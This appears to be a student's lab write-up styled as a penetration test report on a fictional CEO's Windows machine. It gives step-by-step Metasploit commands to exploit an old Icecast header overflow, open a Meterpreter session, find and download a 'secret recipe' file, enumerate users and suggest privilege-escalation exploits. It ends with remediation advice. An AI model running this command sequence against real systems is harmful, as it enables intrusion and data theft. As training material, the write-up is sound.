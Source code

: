 
# <p style="text-align: center;"> GoodSecurity Penetration Test Report</p>

<p style="text-align: center;">mark@GoodSecurity.com</p>

10th April, 2022



## 1.	High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The goal of this test is to perform attacks similar to those of a hacker and attempt to infiltrate Hans’ computer to determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software, find a secret recipe file on Hans’ computer, and report the findings back to GoodCorp.
The internal penetration test found several alarming vulnerabilities on Hans’ computer: When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting one program with major vulnerabilities. The details of the attack are below.
## 2.	Findings

Machine IP: `192.168.0.20`
Hostname: `MSEDGEWIN10`
Vulnerability Exploited: `Icecast Header Overwrite`
Vulnerability Explanation: `This is "a buffer overflow in the header parsing of Icecast versions 2.0.1 and earlier, discovered by Luigi Auriemma. Sending 32 HTTP headers will cause a write one past the end of a pointer array. On win32 this happens to overwrite the saved instruction pointer, and on linux (depending on compiler, etc) this seems to generally overwrite nothing crucial (read not exploitable). This exploit uses ExitThread(), this will leave icecast thinking the thread is still in use, and the thread counter won't be decremented. This means for each time your payload exits, the counter will be left incremented, and eventually the threadpool limit will be maxed. So you can multihit, but only till you fill the threadpool."` Sorce: https://www.rapid7.com/db/modules/exploit/windows/http/icecast_header/
`As the CEO is running version 2.x of Icecast, his machine is vulnerable to this specific attack.`

Severity:
This vulnerability is a high risk vulnerability because an attacker can easily gain access to a shell prompt (as demonstrated below) and potentially utilise other exploits to escalate user privilege. 


Proof of Concept:

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
![nmap](Images/1.Service-and-version-scan.PNG)
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast
![searchsploit](Images/2.Searchsploit-Icecast.PNG)
3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer: msfconsole

      ![Metasploit](Images/3.Metasploit.PNG)
4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer: search icecast
![icecast](Images/4.Metasploit-Icecast.PNG)
   - Run the command to use the Icecast module:

     > Answer:use 0
![use-0](Images/4.Metasploit-Icecast-use-0.PNG)
5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer: set RHOST 192.168.0.20
![set-RHOST](Images/5.Set-RHOST.PNG)
6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer: run
![run-exploit](Images/6.Run.PNG)
   - Run the command that performs a search for the `secretfile` textfile on the target.
     > Answer: search -f `*secretfile*`.txt
![search-secretfile](Images/6.Search-result.PNG)
7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe` textfile on the target:
      > Answer: search -f *recipe*.txt
    ![Search-recipe](Images/7.Search-recipe.PNG)
    - **Bonus**: Run the command that exfiltrates the `recipe` textfile:
      > Answer: download "c:\Users\IEUser\Documents\Drinks.recipe.txt"
![download-recipe](Images/7.Download-recipe.PNG)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
`run post/multi/recon/local_exploit_suggester`

    ![Exploit-suggester](Images/8.Exploit_Suggester.PNG)

  `The CEO's computer is also potentially vulnerable to an Ikeext exploit and ms16_075_reflection exploit, with both allowing the attacker to upgrade their user privilege.`

### Bonus
  
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: Keeping the existing meterpreter session running (using background), run: search enum_user.
![Search enum_user](Images/Bonus-search-script.PNG)
![Search enum_user-II](Images/Bonus-search-script2.PNG)
run: use 991
![run 991](Images/Bonus-logged-on-users1.PNG)
![run 991-ii](Images/Bonus-logged-on-users2.PNG)


B. Open a Meterpreter shell and gather system information for the target.

  > Answer: Computer name:    MSEDGEWIN10
              OS:               Windows 10 (10.0 Build 17763)
            Architecture:     x64
            System Language:  en_US
            Domain:           WORKGROUP
            Logged On Users:  1
            Metrepreter:      x86/windows

C. Run the command that displays the target's computer system information:

   > Answer: `sysinfo`
   ![Sys info](Images/Bonus-sysinfo.PNG)


3.	Recommendations

What recommendations would you give to GoodCorp?

 For urgent action:
  1. Uninstall Icecast from the CEO's computer. Whilst upgrading to the latest version should mitigate the vulnerability, the application is not an approved application for use on company computers, thus it should be removed.
  2. Run a session with the senior executive management team to ensure that they all understand the importance of abiding by the company's IT policy framework and the potential for exposure by installing applications not approved by the IT department.
  3. Patch the CEO's computer to remove the Ikeext and ms16_075_reflection vulnerabilities.

Strongly recommended actions:
  1. Run a training program for all employees on IT security issues and how to ensure that they reduce the chances of being successfully hacked.
  2. Implement a policy to prevent all employees from having the ability to install applications on their work computers.
  3. Expand the scope of the pentesting engagement to include all senior management.

